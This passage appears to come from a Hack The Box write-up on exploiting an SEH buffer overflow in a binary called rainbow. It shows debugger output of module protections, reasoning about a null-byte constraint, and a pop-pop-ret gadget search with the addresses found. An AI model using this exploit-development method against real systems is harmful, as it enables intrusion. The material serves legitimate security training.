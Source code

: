 ```sh
                      N for gnarly!

Available commands:

    !nmod     - display /SafeSEH, /GS, DEP, and ASLR info for
                all loaded modules

0:003> !nmod
00400000 00411000 rainbow              /SafeSEH OFF /GS            c:\rainbow\rainbow.exe
6f980000 6f995000 VCRUNTIME140         /SafeSEH ON  /GS *ASLR *DEP C:\Windows\SYSTEM32\VCRUNTIME140.dll
6f9a0000 6fa0d000 MSVCP140             /SafeSEH ON  /GS *ASLR *DEP C:\Windows\SYSTEM32\MSVCP140.dll
74e80000 74e8f000 kernel_appcore       /SafeSEH ON  /GS *ASLR *DEP C:\Windows\SysWOW64\kernel.appcore.dll
74fc0000 75012000 mswsock              /SafeSEH ON  /GS *ASLR *DEP C:\Windows\system32\mswsock.dll
753c0000 7547f000 msvcrt               /SafeSEH ON  /GS *ASLR *DEP C:\Windows\SysWOW64\msvcrt.dll
75f30000 75fe9000 RPCRT4               /SafeSEH ON  /GS *ASLR *DEP C:\Windows\System32\RPCRT4.dll
76b10000 76d49000 KERNELBASE           /SafeSEH ON  /GS *ASLR *DEP C:\Windows\System32\KERNELBASE.dll
76f00000 77020000 ucrtbase             /SafeSEH ON  /GS *ASLR *DEP C:\Windows\System32\ucrtbase.dll
77050000 77140000 KERNEL32             /SafeSEH ON  /GS *ASLR *DEP C:\Windows\System32\KERNEL32.DLL
774a0000 77503000 WS2_32               /SafeSEH ON  /GS *ASLR *DEP C:\Windows\System32\WS2_32.dll
77550000 776f4000 ntdll                /SafeSEH ON  /GS *ASLR *DEP C:\Windows\SYSTEM32\ntdll.dll

*DEP/*ASLR means that these modules are compatible with ASLR/DEP

```

Well with null byte being a bad character, and given the address space of the binary, that means the boundary for the buffer has to end after the third byte of SEH in order to get the address placed on the stack correctly, because the last byte of the address is always null.   The end of the string (zero-terminated) will have to be what places the null byte for the fourth and final byte.

Gadget hunt with a tool I built, that wraps around rp++. 

https://github.com/SYANiDE-/rp-ng

```sh

┌──(notroot㉿elysium)-[(master) 1 ~/htb/machines/rainbow]
└─$ rp++-ng --va 0x00400000 --file dump/rainbow.exe -r 3 --regex "pop.*pop.*ret" 2>/dev/null

  rp++-ng?                           ^^           
            _________ _________      ___ __  __________ `
   .       |    _o___|    _o___ ++- |   \  |/   /_____/  !
          |___|\____|___|%%%%%     |____\_|\___\____.] 
  z        `BB' `BBB'`B'           `BBBBBBB' `BBBBBBBB' 
     ;                                    Chain faster
              [[                            $$$$$ $$$$$$      i
                    +                                    SYANiDE
        

0x4092ad: pop ecx ; pop ebp ; ret ; 
0x4094d8: pop ecx ; pop ecx ; ret ; 
0x409adc: pop edi ; pop esi ; pop ebx ; ret ; 
0x409b08: pop edi ; pop esi ; pop ebx ; ret ; 
0x4091b7: pop edi ; pop esi ; ret ; 
0x409add: pop esi ; pop ebx ; ret ; 
0x409b09: pop esi ; pop ebx ; ret ; 
```
